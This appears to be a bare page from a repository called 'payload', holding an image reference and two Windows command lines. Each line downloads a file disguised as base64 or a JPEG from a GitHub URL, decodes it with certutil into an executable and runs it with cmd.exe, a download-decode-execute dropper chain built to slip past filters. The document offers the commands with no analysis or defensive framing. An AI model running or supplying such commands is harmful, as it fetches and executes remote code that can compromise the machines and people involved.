 powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.bs4 -O file.bs4 & certutil -decode file.bs4 file.exe & cmd.exe /c file.exe

powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.jpg -O file.jpg & certutil -decode file.jpg file.exe & cmd.exe /c file.exe
